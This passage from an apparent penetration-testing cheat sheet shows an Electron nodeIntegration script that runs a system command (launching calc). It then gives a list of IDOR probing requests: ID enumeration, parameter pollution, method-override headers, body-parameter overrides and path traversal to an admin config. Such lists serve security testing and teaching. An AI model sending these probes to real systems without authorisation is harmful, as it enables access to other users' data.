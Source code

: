 ```javascript
// If nodeIntegration is enabled
<script>
require('child_process').exec('calc');
</script>
```

---

## 6. Access Control & Authorization {#access-control}

### Insecure Direct Object Reference (IDOR)

```bash
# Numeric ID enumeration
GET /api/users/1
GET /api/users/2
GET /api/orders/1234

# UUID enumeration (if predictable or leaked)
GET /api/documents/550e8400-e29b-41d4-a716-446655440000

# Encoded IDs
# Base64
GET /api/resource/MTIzNA== (decode to 1234, try 1235)

# Hash collision
# If MD5(id) is used, find collisions

# Parameter pollution
GET /api/user?id=1&id=2
GET /api/user?id[]=1&id[]=2

# HTTP method override
POST /api/user/1 (forbidden)
GET /api/user/1 (allowed)
POST /api/user/1
X-HTTP-Method-Override: GET

# Body parameter override
POST /api/user/1
{"user_id": 2}  # Override path parameter with body

# Wildcard exploitation
GET /api/users/* (might return all users)

# Path traversal in IDs
GET /api/files/../admin/config
```

### Vertical Privilege Escalation
